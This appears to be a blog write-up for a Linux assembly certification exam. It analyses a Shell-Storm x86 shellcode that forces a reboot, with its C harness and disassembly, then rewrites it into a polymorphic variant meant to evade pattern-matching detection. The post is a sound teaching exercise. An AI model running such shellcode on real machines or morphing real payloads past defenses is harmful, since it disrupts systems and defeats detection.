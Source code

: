 ```yaml
---
layout: post
title: SLAE 6.1 - Shell-Storm Polymorphism - force reboot
date:   2019-03-04
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The sixth question for the SLAE exam is to create polymorphic versions of 3 shellcodes from Shell-Storm to attempt to beat pattern matching, this is part 1 of 3 for this question.  The requirements are:
* Select a linux/x86 shellcode from Shell-Storm.org
* UThe polymorphic versions cannot be larger than 150% of the original shellcode
* Bonus points for making it shorter in length

The first piece of shellcode we will try to create a polymorphic version of will be:

http://shell-storm.org/shellcode/files/shellcode-831.php
```
**********************************************
* Linux/x86 Force Reboot shellcode 36 bytes  *
**********************************************
* Author: Hamza Megahed                      *
**********************************************
* Twitter: @Hamza_Mega                       *
**********************************************
* blog: hamza-mega[dot]blogspot[dot]com      *
**********************************************
* E-mail: hamza[dot]megahed[at]gmail[dot]com *
**********************************************

xor    %eax,%eax
push   %eax
push   $0x746f6f62
push   $0x65722f6e
push   $0x6962732f
mov    %esp,%ebx
push   %eax
pushw  $0x662d
mov    %esp,%esi
push   %eax
push   %esi
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

**********************************************

#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e"
                  "\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3"
                  "\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53"
                  "\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
It says it is a force reboot shellcode.  Let's do some analysis before we run it just to verify that it does what it claims to do.

With how short the shellcode is, I'll check the instructions with ndisasm for a quick overview.
```
python -c "print '\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80'" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  68626F6F74        push dword 0x746f6f62
00000008  686E2F7265        push dword 0x65722f6e
0000000D  682F736269        push dword 0x6962732f
00000012  89E3              mov ebx,esp
00000014  50                push eax
00000015  66682D66          push word 0x662d
00000019  89E6              mov esi,esp
0000001B  50                push eax
0000001C  56                push esi
0000001D  53                push ebx
0000001E  89E1              mov ecx,esp
00000020  B00B              mov al,0xb
00000022  CD80              int 0x80
00000024  0A                db 0x0a
```
Summarizing what I am seeing at a high level before we dig in to more details:
```
* push null byte
* push what looks like a string
* 1st arg is the string
* push another null
* push another value (string)
* store string address in esi
* push null
* push 2nd string address
* push 1st string address
* move this struct into our 2nd arg
* syscall 11 - execve
```
So we have execve(string1, {string1 string2})

Let's check the strings:
```
>>> binascii.unhexlify('746f6f62')
'toob'
>>> binascii.unhexlify('65722f6e')
'er/n'
>>> binascii.unhexlify('6962732f')
'ibs/'
>>> binascii.unhexlify('662d')
'f-'
```
Little Endian - first string reads: /sbin/reboot

second string reads: -f

So our command is execve('/sbin/reboot', {'/sbin/reboot','-f'},0)

Now that we know the call it makes, I know what to expect and to look for.  Running it does restart the computer.

Let's begin making a polymorphic version of this..

This is a pretty short piece of shellcode so we can try to mix it up as much as we possible.. One of the requirements is that our version cannot be greater than 150% of the original. Given that our original is 36 bytes, we have to fit within 54 bytes.

The original starts by zeroing out EAX, which is a creative solution since EAX needs to be zeroed out at the end to mov 0xb into AL for the syscall.  I'll be using EDX as the null and just zero EAX later on right before the syscall. 

We can zero EDX with the instruction "cdq" which is a 1 byte opcode.  

The next step is to push "/sbin/reboot" to the stack, let's just split this so that we push word values instead of dword values. This might avoid detection on the dword pushes. Then, move the stack pointer into EBX, I am just going to leave this instruction.  So we are currently at:
```nasm
 cdq
 push edx

 push word 0x746f
 push word 0x6f62
 push word 0x6572
 push word 0x2f6e
 push word 0x6962
 push word 0x732f
 mov ebx, esp
```
Next, we are going to push a null terminated '-f' to the stack and move it's address in to ESI for safe keeping. push EDX since it is our NULL value and push the string '-f'. 
```nasm
 push edx
 push word 0x662d
 ```
Now we need to change this mov esi, esp.  I will use EAX since we will be changing it soon anyways.. EAX can be zero'd out by subtracting by itself to get 0, then we can just add esp to it.  So, we are essentially doing a mov eax, esp but using sub and add instructions.
 ```nasm
 sub eax, eax
 add eax, esp
```
Next, we create the args struct with a few push instructions.  I will push edx (NULL), push eax ('-f'), push ebx ('/sbin/reboot') then we need to move our stack pointer into ecx.  Let's do the sub - add replacement again for the mov.
```nasm
push edx
push eax
push ebx
sub ecx, ecx
add ecx, esp
```
The last instructions move 0xb into AL and then makes the syscall.  Since I decided to use EDX as the null and EAX has values in it, I have to zero it out and then move the right syscall value into AL.  Again, sub add replacement here, then the int 0x80.
```nasm
sub eax, eax
add al, 0xb
int 0x80
```
All done, our total bytes is 50 and it runs properly!  Let's put them side by side to show the differences.
```nasm
xor eax,eax                          cdq     
push eax                             push edx
push dword 0x746f6f62                push word 0x746f
                                     push word 0x6f62
push dword 0x65722f6e                push word 0x6572
                                     push word 0x2f6e
push dword 0x6962732f                push word 0x6962
                                     push word 0x732f
mov ebx,esp                          mov ebx, esp

push eax                             push edx
push word 0x662d                     push word 0x662d
mov esi,esp                          sub eax, eax
                                     add eax, esp
push eax                             push edx
push esi                             push eax
push ebx                             push ebx
mov ecx,esp                          sub ecx, ecx
                                     add ecx, esp
mov al,0xb                           sub eax, eax
                                     add al, 0xb
int 0x80                             int 0x80
```
